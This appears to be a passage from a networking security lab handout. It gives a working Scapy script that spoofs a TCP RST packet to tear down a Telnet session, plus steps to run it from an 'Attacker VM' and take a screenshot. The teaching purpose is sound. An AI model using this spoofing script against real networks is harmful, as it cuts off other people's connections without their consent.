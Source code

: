 Create a file named `tcp_reset.py`:
 
```python
#!/usr/bin/python3
from scapy.all import *
 
# Adjust these values based on your environment:
server_ip = "10.0.2.6"
client_ip = "10.0.2.5"
server_port = 23   # Telnet port
client_port = 51700  # example ephemeral port
 
# The RST packet typically spoofs a packet from the server to the client
# so we set the IP src=server, dst=client
 
# Put the correct seq from the last server->client ack
sequence_number = 123456789  # REPLACE with the server->client ack
# The ack field is not strictly necessary for a pure RST, but you can add it if desired
 
ip_layer = IP(src=server_ip, dst=client_ip)
tcp_layer = TCP(
    sport=server_port,
    dport=client_port,
    flags="R",
    seq=sequence_number
)
 
packet = ip_layer / tcp_layer
 
send(packet, verbose=0)
print("Spoofed RST packet sent. Session should be reset.")
```
 
**Make it executable**:
```bash
chmod +x tcp_reset.py
```
 
---
 
## 3.4 Run the Reset Attack
 
1. Leave the Telnet session open on the **Client VM**.  
2. On the **Attacker VM**, execute:
 
   ```bash
   sudo ./tcp_reset.py
   ```
 
3. On the **Client VM**, you should see the Telnet session **immediately** close with a connection reset.
 
> **Take Screenshot #7**: Your Telnet client showing the sudden termination after the RST.
 
---
 